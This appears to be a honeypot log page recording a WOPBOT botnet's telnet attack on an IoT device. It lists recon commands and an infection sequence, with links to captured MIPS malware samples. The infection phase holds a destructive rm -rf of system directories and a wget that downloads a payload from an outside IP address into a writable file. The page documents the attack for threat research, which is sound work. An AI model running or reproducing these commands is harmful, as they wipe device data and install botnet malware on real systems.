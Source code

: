 ### Recon phase
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```
### Infection phase
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Captured samples
* [1.mp](https://github.com/stamparm/hontel/raw/master/captured/WOPBOT/1.mp.7z) (ELF 32-bit, MIPS, MD5: eab8da47ff36cafd2662fd01b6959389)

![1.mp](http://i.imgur.com/YRkfRzC.png)

* [2.mp](https://github.com/stamparm/hontel/raw/master/captured/WOPBOT/2.mp.7z) (ELF 64-bit, MIPS, MD5: 4565f96cd8498a7e15ffa99e0d435d11)

![2.mp](http://i.imgur.com/TysB1O4.png)
